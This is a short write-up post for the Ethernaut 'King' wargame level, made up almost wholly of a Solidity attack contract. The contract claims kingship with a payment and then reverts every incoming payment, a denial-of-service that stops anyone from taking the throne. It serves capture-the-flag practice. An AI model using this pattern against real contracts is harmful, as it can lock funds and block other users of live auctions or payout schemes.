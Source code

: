 +++
title = 'Ethernaut Level 9 - King'
date = 2024-08-28T16:14:08+02:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Stay King forever by refusing money'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.2;

interface King {}

// https://www.youtube.com/watch?v=5kNONlpJdDk
// http://www.kingoftheether.com/postmortem.html
contract Attack {
    King etherGame;

    constructor(King _etherGame) payable  {
        // Send enough eth to become king
        (bool success, bytes memory data) = address(_etherGame).call{value:1000000000000001}("");
        require(success);
    }

    // Refuse to receive Eth to DOS
    receive() external payable {
        assert(false);
    }
}
```